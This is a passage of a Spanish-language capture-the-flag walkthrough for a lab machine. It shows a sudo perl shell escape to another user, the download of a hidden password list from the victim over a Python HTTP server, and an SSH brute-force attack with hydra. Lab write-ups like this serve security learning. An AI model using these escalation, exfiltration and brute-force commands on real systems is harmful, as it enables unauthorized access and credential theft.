 ```shell
sudo -u toreto perl -e 'exec "/bin/bash";'
```

Info:

```
toreto@hidden:~$ whoami
toreto
```

## Escalate user atenea

Si vamos a la `home` del usuario `atenea` veremos una carpeta oculta llamada `.hidden` en la que podremos entrar y veremos un archivo llamado `atenea.txt` el cual podremos leer y veremos lo siguiente:

> atenea.txt

```
sys7959hmv
sys7960hmv
sys7961hmv
sys7962hmv
sys7963hmv
sys7964hmv
sys7965hmv
sys7966hmv
sys7967hmv
sys7968hmv
sys7969hmv
sys7970hmv
..............................<RESTO>..............................................
```

Por lo que vemos es un listado de lo que podrian ser contraseñas del usuario `atenea` por lo que haremos lo siguiente:

Desde la maquina victima abriremos un servidor de `python3`:

```shell
python3 -m http.server
```

Desde la maquina atacante vamos a descargarnos dicho archivo.

```shell
wget http://<IP_VICTIM>:8000/atenea.txt
```

### Hydra

Una vez descargado vamos realizar la fuerza bruta con `hydra`:

```shell
hydra -l atenea -P atenea.txt ssh://<IP_VICTIM> -t 64 -I
```
